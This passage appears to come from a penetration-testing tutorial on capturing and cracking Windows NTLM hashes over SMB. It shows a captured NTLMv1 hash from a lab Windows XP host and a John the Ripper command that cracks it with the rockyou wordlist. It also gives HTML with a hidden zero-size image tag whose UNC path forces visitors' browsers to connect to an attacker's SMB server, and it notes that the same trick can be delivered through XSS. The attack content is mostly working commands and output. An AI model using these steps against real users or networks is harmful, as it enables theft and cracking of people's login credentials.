 ```
[*] SMB Captured - 2019-09-25 22:26:04 -0400
NTLMv1 Response Captured from 2.2.2.2:1056 - 2.2.2.2
USER:test DOMAIN:WINXP OS:Windows 2002 Service Pack 2 2600 LM:Windows 2002 5.1
LMHASH:7f1a8bbdf965d969339b08f160d292692f85252cc731bb25
NTHASH:e02333eb6ac047b8d4d4f5759b1a455161d4bc576f75460c
net use \\1.1.1.1 fake
System error 1326 has occurred.

Logon failure: unknown user name or bad password.


C:\Documents and Settings\test\Desktop>
```

We're now able to use John the Ripper to crack the password.

```
# cat /tmp/john_netntlm 
test::WINXP:7f1a8bbdf965d969339b08f160d292692f85252cc731bb25:e02333eb6ac047b8d4d4f5759b1a455161d4bc576f75460c:1122334455667788
# john /tmp/john_netntlm --format=netlm  --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Using default target encoding: CP850
Loaded 1 password hash (netlm, LM C/R [DES 32/64])
Warning: poor OpenMP scalability for this hash type, consider --fork=8
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
FAKE             (test)
1g 0:00:00:00 DONE (2019-09-25 22:28) 1.333g/s 1398Kp/s 1398Kc/s 1398KC/s 123456..LATISHA1
Use the "--show --format=netlm" options to display all of the cracked passwords reliably
Session completed
```

### UNC in Websites Vector

One way to coax a user into creating an SMB connection is to embed it in a website

First, create the website (we're using Kali for this) with the following content:
```
<html>
<head>
<title>UNC Example</title>
</head>
<body>
<img src="file:////1.1.1.1/fake.jpg" width="0px" height="0px">
</body>
</html>
```

This file, for the example is in `/var/www/html/unc.html`.

Also of note, this could be done via XSS or other injection technique.

Start the webserver: ```service apache2 start```
